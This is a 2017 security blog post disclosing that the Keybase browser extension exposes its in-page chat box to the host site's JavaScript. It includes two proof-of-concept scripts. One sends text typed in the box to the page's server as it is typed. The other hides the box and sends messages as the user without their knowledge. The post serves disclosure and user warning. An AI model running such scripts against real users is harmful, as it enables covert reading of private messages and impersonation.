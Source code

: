 ```yaml
---
title: "Keybase Browser Extension Insecure"
date: Sat, 05 Aug 2017 10:26:45 GMT
draft: false
type: posts
---
```

# Keybase Browser Extension Insecure

<br/>

<br/>
Yesterday, I discovered that [Keybase](https://keybase.io) has a browser extension for both [Firefox](https://firefox.com) and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When you press this button, a compose window opens, you enter a message, and then the addon contacts your keybase desktop app in order to send a message to that user.

If you are lucky enough to discover the extension by visiting [https://keybase.io/docs/extension](https://keybase.io/docs/extension) and by actually reading the content of the page, you will come across this little bit of information:

> “The Keybase extension uses a compose box inside your browser. If you fear your browser or the social network site’s JavaScript has been compromised – say by another extension or even the social network acting fishy – then just compose the message inside the Keybase app directly. Or send a quick hello note through the extension and save the jucier private details for inside the app.”

This information is **not** on the Firefox or Chrome extension stores.

But what does it _actually_ mean?

It means that Reddit, Twitter, Facebook, Github, Hacker News, Keybase and any other site that they allow to execute JavaScript on their pages can perform the following actions if you visit their websites with the addon installed:

1.  Read any message that you type into the compose box, as you’re typing it.
2.  Send chat messages from you to other Keybase users.

For #1, to read the messages you are composing they simply need to serve up a small amount of JavaScript similar to the following when you visit:

```
if (document.querySelector('.keybase-chat')) {
  let msg = '';
  setInterval(() => {
    const t = document.querySelector('.keybase-reply textarea');
    if (!t || t.value.length === 0 || t.value === msg) return;
    msg = t.value;
    fetch('/report-keybase-chat?msg=' + encodeURIComponent(msg));
  }, 1000);
}
```

In the above code, the first line detects if the user has the keybase addon. If they do, it runs a check on a 1 second interval to see if there is a Keybase composer window open with a message in it. If there is, and the message being composed is different to what it was 1 second ago, then an ajax request is performed to send the content of that message to the server.

For #2, to send a message to a keybase user silently:

```
function sendKeybaseMessage(msg) {

  const s = document.createElement('style');
  s.type = 'text/css';
  s.textContent = '.keybase-reply{opacity:0 !important}';
  document.head.appendChild(s);

  document.querySelector('.keybase-chat').click();
  document.querySelector('.keybase-reply textarea').value = msg;
  const event = new UIEvent('change', { view: window, bubbles: true, cancelable: true });
  document.querySelector('.keybase-reply textarea').dispatchEvent(event);
  document.querySelector('.keybase-reply input[name="keybase-submit"]').click();
  document.querySelector('.keybase-close').click();
  s.remove();

}
```

The “style” related code is there to make sure that the user doesn’t notice the compose window opening and being filled with a message, and the message being sent, by making it invisible temporarily. To specify a recipient other than the one in the profile being viewed, a little more work would need to be done by the server to temporarily redirect you to a different profile page, but it would work.

The troubling thing is, they could actually have made this secure. As well as the chat functionality that they inject into the browsers DOM, they also add a Keybase icon into the browser UI it’s self, outside of the DOM. Clicking on that icon works exactly the same, except it doesn’t inject anything into the DOM, the compose window is outside of the webpage, making it obvious that the browser is in control rather than the webpage. The textarea can not be read and it can not be interacted with from JavaScript.

**Conclusion** : Continue installing and using the excellent desktop app. Don’t even think about installing the browser addon.

[![](https://www.grepular.com/images/amazon/yubikey_nano.jpg)](https://www.grepular.com/redir?key=amazon_yubikey_nano "Yubikey Nano") [![](https://www.grepular.com/images/amazon/saving_bletchley_park.jpg)](https://www.grepular.com/redir?key=amazon_saving_bletchley_park "Saving Bletchley Park")

#### [Source](https://www.grepular.com/Keybase_Browser_Extension_Insecure)

<br/>
---
